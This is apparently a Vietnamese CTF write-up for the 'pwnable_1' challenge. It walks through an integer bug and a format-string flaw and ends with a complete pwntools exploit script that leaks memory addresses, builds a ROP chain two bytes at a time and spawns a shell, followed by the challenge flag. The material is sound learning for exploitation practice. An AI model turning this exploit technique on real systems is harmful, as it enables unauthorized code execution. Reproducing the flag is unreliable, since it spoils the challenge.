

# Write up

## 1. Lấy libc từ docker đã cho

1. file Docker và docker-compose.yml



[localhost](http://localhost) được docker build lắng nghe ở cổng 13331.


2. Build docker

ta có file docker-compose.yml nên ta dùng lệnh **`sudo docker-compose up --build`**  để build và chạy docker file luôn


Thành công build được docker và bây giờ [localhost](http://localhost) đang lắng nghe ở cổng 13331.

3. Copy libc

Kết nối đến localhost bên terminal khác bằng netcat: `nc localhost 13331`


mở terminal khác vào folder chứa file challenge và thực hiện các bước sau:

b1: xem tất cả container đang chạy

`sudo docker ps`


b2: tìm các tiến trình có tên hoặc dòng lệnh chứa `pwnable_1`


b3: hiển thị **bản đồ vùng nhớ** của tiến trình có PID `1678` tức là nơi đang chạy file pwnable_1


b4: Copy file libc và file ld về folder chứa challenge (tức là nơi mình đang đứng)

`sudo docker cp <conteainer_id>:<file_libc> .`

`sudo docker cp <conteainer_id>:<file_ld> .`

Kết quả:


4. Sử dụng `pwninit` để Patch ELF / set interpreter để chạy binary với **ld/libc đúng phiên bản**

Kết quả:


---

## 2. Phân tích challenge

Các hàm cần quan tâm:


- Hàm `buy`


chọn mua peaches hoặc banana và nhập các thông tin số lượng và địa chỉ ship

- Hàm `create_invoice`:


Hàm này sẽ in các thông tin như số lượng peaches hoặc banana mình đã mua cung như địa chỉ ship nếu có nhập và ở đây ta thấy có 2 nơi có lỗi format string nhưng ta sẽ tập trung khai thác ở printf mà tôi đã comment trong ảnh bởi trong hàm buy nếu ta chọn mua chuối (banana) và nhập địa chỉ ship thì ta sẽ nhập 96 byte bắt đầu từ vị trí v8 + 28 và printf của peaches lại in từ vị trí i + 92 (với i sẽ check là nhập ở đào hay chuối tại i + 27) tức là ta có thể nhập được 96 + 28 - 92 = 32 byte format string. Để làm được điều đó ta sẽ cần phải làm sao thay đổi byte thứ i + 27 thành 0.

- Hàm `change_gift`:


ở đây ta thấy hàm `__isoc99_scanf("%10s", i + 17)` tức nhập 10 byte từ i + 17 vừa đúng byte cuối cùng là i + 27 vì vậy ta cần làm cho byte thứ i + 16 có giá trị khác 0. Vậy làm sao để làm điều này ta cùng xem lại ở hàm enter_quantity trong hàm buy

- Hàm `enter_quantity`:


Ở đây cho ta nhập số lượng và v2 ở kiểu int tức là ta có thể nhập index âm, biến v2 phải nhỏ hơn 0x10000 / 5 (vì chọn banana nên a1 = 5) khi đấy giá trị trả về sẽ là 0xffff = 65535. Nhưng nếu ta nhập v2 là -1 vì là kiểu int (4byte) nên v2 có giá trị là 0xffffffff

ta dừng lại ở hàm scanf trong gdb


kiểm tra chunk

tại vị trí gạch chân trong hình (i + 16) đang là byte bằng 0


Sau khi nhập -1 byte thứ i+16 đã khác 0 từ đây ta có thể nhập label trong hàm change_gift


- Hàm `change_addr`:


Đây sẽ là nơi ta nhập payload format string khi đã bypass các điều kiện đã nêu ở trênt

---

## 3. GDB

gdb file binary chạy qua phần đầu các hàm banner, menu rồi ta sẽ kiểm tra stack


ở mũi tên thứ 1 ta có thể dùng format string để leak ra được stack mũi tên thứ 2 và 3 là loạt stack linking với nhau từ đây ta có thể sử dụng format string để điều khiển được dòng chảy stack và ý tưởng của tôi ở đây là sẽ tạo ROP chain từ linking stack này.

---

## 4. Script

- Các hàm cần thiết


4 hàm đầu chính ra 4 hàm để gửi các thông tin cần thiết như hàm trong đề còn hàm thứ 5 là hàm tôi tự custom bởi vì ta chỉ được nhập 32 byte format string nên ta không thể ghi cùng lúc 6 byte vào stack được vì vậy chiến lược của tôi là ghi lần lượt 2 byte một. Cụ thể các thao tác sẽ là: Tạo 1 phiên mua banana mới với quantity là -1 và gửi payload format string ghi đè 2 byte sau đó nhập 10 byte null để byte thứ i + 27 = 0 sau đó kích hoạt bug format string trong hàm `create_invoice`

- leak libc, stack, heap và exe

năm `%` đầu là các địa chỉ thanh ghi còn địa chỉ trên stack sẽ bắt đầu ở `%` thứ 6


Kết quả thu được:


flow stack của tôi bắt đầu ở `0x7fffffffdb08` nên tôi cộng stack leak thêm 0x28

- Overwrite


nếu chùng ta ghi ngay pop rdi vào rip thì không được vì chúng ta chỉ được ghi 2 byte mỗi lần vì vậy ta sẽ ghi ROP từ rip + 0x8 với chiến lược mỗi lần sẽ tạo một lượt mua chuối mới và ghi 2 byte vào các địa chỉ này


→ Kết quả lần ghi đầu tiên


Tương tự với flow trên ta sẽ dàn trải ROP chain và được kết quả như thế này (ảnh dưới là khi tắt aslr thì địa chỉ sẽ khác nhau với mỗi lần chạy)


ở dong +028 phải thêm một địa chỉ ret nữa để ghi gọi system không bị lỗi xmmo (tức địa chỉ phải chia hết cho 16)

Đến đây ta chỉ cần ghi đè rip 2 byte để địa chỉ trên rip trở thành ret khi đó ROP chain của chúng ta sẽ được thực thi.


Thành công chiếm được Shell


Script:

```python
#!/usr/bin/env python3
from pwn import *
exe = ELF('pwnable_1_patched', checksec = False)
libc = ELF('libc.so.6', checksec=False)

# p = process(exe.path)
p = remote('103.197.184.48', 13331)

def buy(choice, quantity, data):
    p.sendlineafter(b'Input:', b'1')
    p.sendlineafter(b'(1)?:', choice)
    p.sendlineafter(b'quantity:', quantity)
    p.sendlineafter(b'(Y/N):', b'y')
    p.sendline(data)

def create_invoice():
    p.sendlineafter(b'Input:', b'2')

def change_gift(idx, data):
    p.sendlineafter(b'Input:', b'3')
    p.sendlineafter(b'label:', idx)
    p.sendafter(b'label:', data)

def change_addr(item, data):
    p.sendlineafter(b'Input:', b'4')
    p.sendlineafter(b'address:', item)
    p.sendlineafter(b'address:', data)

def sendPayload(idx, offset, i, x):
    buy(b'1', b'-1', b'a')
    payload = b'a'*64 + f'%{offset}c%{i}${x}'.encode()
    change_addr(idx, payload)
    change_gift(idx, b'\0'*10)
    create_invoice()

input()
# leak libc, stack, heap and exe
buy(b'1', b'-1', b'a')

payload = b'a'*64 + b'%10$p%15$p%8$p%11$p'
change_addr(b'1', payload)
payload = b'a'*10
change_gift(b'1', payload)
create_invoice()
p.recvuntil(b'65531|')

stack_leak = int(p.recv(14), 16) + 0x28
libc_leak = int(p.recv(14), 16)
libc.address = libc_leak - 0x29d90
heap_leak = int(p.recv(14), 16)
exe_leak = int(p.recv(14), 16)
exe.address = exe_leak - 0x1dc4
log.info("stack leak:" + hex(stack_leak))
log.info("libc leak:" + hex(libc_leak))
log.info("libc base:" + hex(libc.address))
log.info("heap leak:" + hex(heap_leak))
log.info("exe base:" + hex(exe.address))

# over write
pop_rdi = 0x2a3e5 + libc.address
bin_sh = next(libc.search(b"/bin/sh"))
system = libc.sym.system

# overwrite rip -> pop_rdi
package1 = {
    (pop_rdi >> 0) & 0xffff: (stack_leak - 0x38) & 0xffff,
    (pop_rdi >> 16) & 0xffff: (stack_leak - 0x38 + 2) & 0xffff,
    (pop_rdi >> 32) & 0xffff: (stack_leak - 0x38 + 4) & 0xffff,
}
order1 = sorted(package1)

sendPayload(b'2', package1[order1[0]], 19, "hn")
sendPayload(b'3', order1[0], 49, "hn")
sendPayload(b'4', package1[order1[1]], 19, "hn")
sendPayload(b'5', order1[1], 49, "hn")
sendPayload(b'6', package1[order1[2]], 19, "hn")
sendPayload(b'7', order1[2], 49, "hn")

# /bin/sh
package2 = {
    (bin_sh >> 0) & 0xffff: (stack_leak - 0x30) & 0xffff,
    (bin_sh >> 16) & 0xffff: (stack_leak - 0x30 + 2) & 0xffff,
    (bin_sh >> 32) & 0xffff: (stack_leak - 0x30 + 4) & 0xffff,
}
order2 = sorted(package2)

sendPayload(b'8', package2[order2[0]], 19, "hn")
sendPayload(b'9', order2[0], 49, "hn")
sendPayload(b'10', package2[order2[1]], 19, "hn")
sendPayload(b'11', order2[1], 49, "hn")
sendPayload(b'12', package2[order2[2]], 19, "hn")
sendPayload(b'13', order2[2], 49, "hn")

# return 1
ret = exe.address + 0x1DDD
print(hex(ret))
package3 = {
    (ret >> 0) & 0xffff: (stack_leak - 0x28) & 0xffff,
    ((ret >> 16) & 0xffff): (stack_leak - 0x28 + 2) & 0xffff,
    (ret >> 32) & 0xffff: (stack_leak - 0x28 + 4) & 0xffff,
}
order3 = sorted(package3)

sendPayload(b'14', package3[order3[0]], 19, "hn")
sendPayload(b'15', order3[0], 49, "hn")
sendPayload(b'16', package3[order3[1]], 19, "hn")
sendPayload(b'17', order3[1], 49, "hn")
sendPayload(b'18', package3[order3[2]], 19, "hn")
sendPayload(b'19', order3[2], 49, "hn")

# return 2
package3 = {
    (ret >> 0) & 0xffff: (stack_leak - 0x20) & 0xffff,
    ((ret >> 16) & 0xffff): (stack_leak - 0x20 + 2) & 0xffff,
    (ret >> 32) & 0xffff: (stack_leak - 0x20 + 4) & 0xffff,
}
order3 = sorted(package3)

sendPayload(b'20', package3[order3[0]], 19, "hn")
sendPayload(b'21', order3[0], 49, "hn")
sendPayload(b'22', package3[order3[1]], 19, "hn")
sendPayload(b'23', order3[1], 49, "hn")
sendPayload(b'24', package3[order3[2]], 19, "hn")
sendPayload(b'25', order3[2], 49, "hn")

# system
package4 = {
    (system >> 0) & 0xffff: (stack_leak - 0x18) & 0xffff,
    (system >> 16) & 0xffff: (stack_leak - 0x18 + 2) & 0xffff,
    (system >> 32) & 0xffff: (stack_leak - 0x18 + 4) & 0xffff,
}
order4 = sorted(package4)

sendPayload(b'26', package4[order4[0]], 19, "hn")
sendPayload(b'27', order4[0], 49, "hn")
sendPayload(b'28', package4[order4[1]], 19, "hn")
sendPayload(b'29', order4[1], 49, "hn")
sendPayload(b'30', package4[order4[2]], 19, "hn")
sendPayload(b'31', order4[2], 49, "hn")

#overwrite rip -> ret
sendPayload(b'32', (stack_leak - 0x40) & 0xffff, 19, "hn")
sendPayload(b'33', ret & 0xffff, 49, "hn")

p.interactive()
```

---

## 5. Flag

Flag: `PTITCTF{tHiS_fRuItY_fLaVoR_iS_DeLiCiOuS_aNd_vErY_HeAlThY_3e1f4b2}`